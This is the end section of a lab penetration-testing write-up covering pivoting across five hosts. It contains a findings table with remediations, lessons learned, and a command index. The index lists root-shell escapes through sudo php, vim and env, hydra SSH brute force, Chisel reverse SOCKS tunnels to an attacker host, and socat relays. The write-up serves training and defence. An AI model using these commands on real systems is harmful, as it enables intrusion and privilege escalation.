| F9 | Host 3 | `sudo vim` | Root shell escape | Remove `sudo vim`; use a restricted wrapper or `sudoedit` with a strict policy |
| F10 | Host 4 | Unrestricted PHP upload with execution under `/uploads` | Remote code execution | Validate extension and MIME type, randomize filenames, store uploads outside the web root, and disable PHP execution there |
| F11 | Host 4 | `sudo /usr/bin/env` | Root command execution | Remove the rule; allow only specific, non-interpreter binaries |
| F12 | Host 5 | Credentials stored in `/tmp/.secret.txt` | Root compromise | Never store secrets in world-readable temporary files; use a secrets manager and rotate the password |
| F13 | All | Flat trust between internal networks and no egress filtering | Easy lateral movement | Segment networks, apply host firewalls, restrict outbound connections, and monitor east-west traffic |
| F14 | All | Excessive sudo permissions and interpreter abuse | Repeated privilege escalation | Apply least privilege, review sudoers regularly, and alert on suspicious sudo executions |

---

## 10. Lessons learned

1. **Pivoting is routing, not just a tool.** The core problem is reachability. Once the routing is understood, Chisel and `socat` are simple building blocks.
2. **Use TCP connect scans through SOCKS.** `nmap -sS` cannot traverse a SOCKS5 proxy because raw SYN packets are not proxied. `-sT` is the correct choice.
3. **`socat` needs `fork` for SOCKS.** A SOCKS proxy makes many connections; without `fork`, the relay handles only one at a time.
4. **Reverse SOCKS is ideal when the target cannot reach the attacker.** `chisel server --reverse` plus `R:socks` creates a local proxy on the attacker without requiring an inbound port on the victim.
5. **Relay one hop at a time.** Each dual-homed host forwards to the next host closer to the attacker. This keeps the chain modular and easy to debug.
6. **Do not over-invest in kernel exploits inside containers.** Configuration issues, sudo rules, credentials, and web vulnerabilities are usually faster and more reliable.
7. **Credentials appear in unexpected places.** Maintenance pages, `/tmp`, FTP shares, and KeePass databases were all more useful than brute force.
8. **Local brute force is not the same as remote brute force.** A service can block SSH while the local account password remains valid for `su`.
9. **Custom tooling helps on high-latency tunnels.** Generic fuzzers are not optimized for proxychains; a small purpose-built script can be significantly faster.
10. **Document interfaces at every host.** `hostname -I` and `ip route` are the fastest way to discover the next network.

---

## Appendix A — Key command index

| Purpose | Command |
|---|---|
| Deploy the lab | `bash auto_deploy.sh inclusion.tar move.tar trust.tar upload.tar whereismywebshell.tar` |
| Full TCP scan | `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP> -oG allPorts` |
| Web fuzzing | `ffuf -u http://<IP>/FUZZ -w <wordlist> -c` |
| SSH brute force | `hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>` |
| Chisel server | `chisel server --reverse -p 4444` |
| Chisel reverse SOCKS | `./chisel client <ATTACKER>:4444 R:socks` |
| Chisel reverse SOCKS on a custom port | `./chisel client <RELAY>:<PORT> R:9919:socks` |
| `socat` relay | `./socat TCP-LISTEN:<LPORT>,fork TCP:<RHOST>:<RPORT>` |
| Proxychains scan | `proxychains -q nmap -sT -Pn -p- --open <IP>` |
| Anonymous FTP | `ftp -p <IP>` with `anonymous` / `anonymous` |
| KeePass hash | `keepass2john <file>.kdbx > keepass.hash` |
| PHP root shell | `sudo /usr/bin/php -r 'system("/bin/sh -i");'` |
| Vim root shell | `sudo vim -c ':!bash'` |
| `env` root shell | `sudo env /bin/sh` |
| TTY stabilization | `script 2>/dev/null -c bash` |

---

## Appendix B — Tools and scripts

| Tool | Purpose | Source |
|---|---|---|
| `proxydiscover.py` | TCP host discovery through a SOCKS proxy | `https://github.com/Kevon99/Hacking-tools/blob/master/DoggyProxy/proxydiscover.py` |
| `proxfuzz.py` | LFI-aware and parameter-aware fuzzing through proxychains | `https://github.com/Kevon99/Hacking-tools/blob/master/DoggyProxy/proxfuzz.py` |
| `bruteforce.sh` | Local account password brute force | `./scripts` in the lab notes |
| `socat` static binary | TCP relay on hosts without required libraries | `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat` |
| `50581.py` | Grafana directory traversal exploit | `searchsploit -m multiple/webapps/50581.py` |
| `chisel` | Reverse SOCKS and TCP tunnels | Project release binary |

---

## Appendix C — Notes on command normalization

The original notes contained several typos and inconsistent relay ports. For clarity and reproducibility, the commands in this report are normalized as follows:

- `fuf` is written as `ffuf`.
- `publicl` is written as `public`.
- `196.168.122.50` is written as `192.168.122.50`.
- `upload` is written as `uploads` where the directory name is intended.
- The reverse-shell forward uses `4444` on Host 3 and `6769` on the attacker.
- The second Host 4 shell uses the same `4444`/`6769` pair; the earlier `4443`/`6768` values in the notes were inconsistent.
- The Host 5 forward uses `3131` on Host 4 and `7777` on the attacker.
- The machine numbering follows the order of compromise: Host 1 = `10.10.10.2`, Host 2 = `20.20.20.3`, Host 3 = `30.30.30.3`, Host 4 = `40.40.40.3`, Host 5 = `50.50.50.3`.
- For proxychains, `echo ... | sudo tee -a` is used instead of `sudo echo ... >>` because the redirection in the latter is performed by the unprivileged shell.

These adjustments do not change the attack path; they remove ambiguity and make the report reproducible.
